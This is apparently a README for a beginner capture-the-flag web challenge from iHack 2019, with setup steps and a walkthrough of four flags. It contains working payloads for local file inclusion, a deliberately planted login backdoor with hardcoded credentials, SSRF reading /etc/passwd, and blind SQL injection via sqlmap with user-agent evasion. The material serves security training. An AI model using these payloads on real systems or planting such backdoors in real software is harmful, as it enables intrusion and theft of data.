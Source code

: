 # LAN Manager - iHack 2019 by Pourliver

## Description
This track contains 4 flags. It was meant to be a simple track, without any dead-ends. Each possible vulnerability is rewarded with a flag. I tried to keep it simple for beginners, meaning that if you think there's something worth looking into, you're probably right. The goal of this track isn't to guess, bruteforce, or bypass complex filters. It's simply to understand where the vulnerability is, and how to make some value out of it. Hope you enjoy!

## Installation

    git clone https://github.com/Pourliver/ihack_web_2019
    cd ihack_web_2019
    sudo docker build -t ihack_web .
    sudo ./run.sh

## Walkthrough of each vulnerabilities
1 - LFI
- The LFI allows the attack to read the source of the php files

      http://127.0.0.1:8080/?page=php://filter/convert.base64-encode/resource=config

2 - Backdoor in the code / Login bypass
- The "ugly" code found inside the codebase allows to bypass the unimplemented login. The following curl passes the backdoor

      curl "http://127.0.0.1:8080/p.php?username=s3cRet4DmiN&password=hunter2" --cookie "LET_ME_IN=The magic word is PLEASE" -I

3 - SSRF
- The admin panel is vulnerable to the "file" protocol, allowing to fetch local files.

      curl "http://127.0.0.1:8080/?page=admin.php&url=file:///etc/passwd" --cookie "PHPSESSID=YOUR_BACKDOOR_COOKIE"

4 - (Optional) Blind SQLi
- The stats.php page is vulnerable to an easy sql injection. It can be easily solved manually, or with sqlmap. The server blocks the sqlmap user-agent, so we have to tamper it with --random-agent

      sqlmap -u "http://127.0.0.1:8080/?page=home.php&mode=0" -p mode --threads 10 --level 5 --risk 3 --dbms sqlite3 --random-agent -a